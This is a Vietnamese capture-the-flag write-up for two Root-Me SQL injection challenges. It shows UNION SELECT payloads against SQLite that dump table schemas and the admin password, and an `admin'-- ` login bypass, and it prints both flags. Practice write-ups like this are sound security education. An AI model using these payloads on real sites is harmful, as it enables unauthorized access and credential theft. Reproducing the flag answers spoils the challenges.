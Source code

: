 # SQL injection - String
CMS v 0.0.2

http://challenge01.root-me.org/web-serveur/ch19/

**Statement**: Retrieve the administrator password

## Cách làm
### Tìm chức năng dính lỗi SQLi
Sau khi truy cập vào link, ta thấy có các chức năng như trang chủ, đăng nhập, tìm kiếm

![image](https://github.com/aQ05/Write-up/assets/121664384/cf62bf7a-4325-4994-b71b-156e05f23b2f)

Để biết lỗi SQLi xảy ra ở chức năng nào thì ta chỉ cần nhập ký tự `1'` và lỗi SQLi xuất hiện tại ô tìm kiếm

![image](https://github.com/aQ05/Write-up/assets/121664384/85d78798-2c99-4f34-8e7a-e058ec73c2c8)

CSDL được sử dụng ở đây là SQLite3 nên ta sẽ khai thác trên SQLite3.
### Tìm số cột
Đầu tiên sử dụng lệnh `ORDER BY` để kiểm tra số cột cho phép.

Nhập lệnh `1’ order by 1--` và đến `1' order by 3--` thì bị lỗi.

![image](https://github.com/aQ05/Write-up/assets/121664384/37d2dd10-8e0d-48cd-b20b-4f44b58d6530)

Tức là CSDL này có 2 cột. Dùng lệnh `UNION SELCT` để khai thác dữ liệu.
### Exploit
Với SQLite3 (https://www.sqlite.org/faq.html), ta sẽ `SELECT` đến `SQLITE_SCHEMA`

![image](https://github.com/aQ05/Write-up/assets/121664384/7c379380-5410-4360-a210-8ae1eacafb85)

Gõ lệnh `1' union select name,sql from sqlite_master--`, ta sẽ biết được CSDL này có 2 bảng là `news` và `users` với lần lượt là tên cột, kiểu dữ liệu.

![image](https://github.com/aQ05/Write-up/assets/121664384/df32cc27-1c25-403a-9444-fa297dadad2f)

`news (CREATE TABLE news(id INTEGER, title TEXT, description TEXT))`

`users (CREATE TABLE users(username TEXT, password TEXT, Year INTEGER))`

Đề bài yêu cầu tìm password admin nên ta cần truy xuất dữ liệu từ bảng `users`. Thực thi câu lệnh  `1' union select username, password from users --`, ta sẽ tìm được password của admin: `admin (c4K04dtIaJsuWdi)`

![image](https://github.com/aQ05/Write-up/assets/121664384/c1ae054f-3d4b-4b73-ad7c-8784c82412cd)

Và đăng nhập thành công
![image](https://github.com/aQ05/Write-up/assets/121664384/fd7edfcd-7f0e-47d7-9a70-4b19e9e56cd0)

## Flag
`c4K04dtIaJsuWdi`

# SQL injection - Authentication
Authentication v 0.01

**Statement:** Retrieve the administrator password

## Cách làm
Truy cập link http://challenge01.root-me.org/web-serveur/ch9/, ta thấy 1 trang web có chức năng đăng nhập.

Để đăng nhập, nhập `admin'-- ` vào trường `username` với mật khẩu tùy ý.

![image](https://github.com/aQ05/Write-up/assets/121664384/b9d97aa9-71bc-4f07-bbc3-fc8be27c67e9)


Để tìm passwprd, `Ctrl U` để xem source code
![Screenshot 2023-11-05 132759](https://github.com/aQ05/Write-up/assets/121664384/3d6556f8-c513-46af-a414-7babe327713b)


## Flag
`t0_W34k!$`

#

